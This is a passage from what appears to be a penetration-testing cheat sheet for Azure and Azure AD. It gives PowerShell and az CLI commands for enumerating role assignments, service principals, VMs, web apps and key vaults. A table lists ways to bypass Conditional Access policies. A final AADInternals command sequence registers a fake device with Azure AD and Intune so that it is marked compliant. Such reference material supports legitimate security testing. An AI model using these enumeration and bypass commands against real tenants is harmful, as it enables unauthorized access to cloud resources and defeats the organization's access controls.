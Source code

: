     # Enumerate role assignments
    PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>
    PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com

    # Check AppID Alternative Names/Display Name 
    PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl
    ```

* Using az cli
    ```powershell
    PS> az vm list
    PS> az vm list --query "[].[name]" -o table
    PS> az webapp list
    PS> az functionapp list --query "[].[name]" -o table
    PS> az storage account list
    PS> az keyvault list
    ```


## Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


Bypassing conditional access by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```
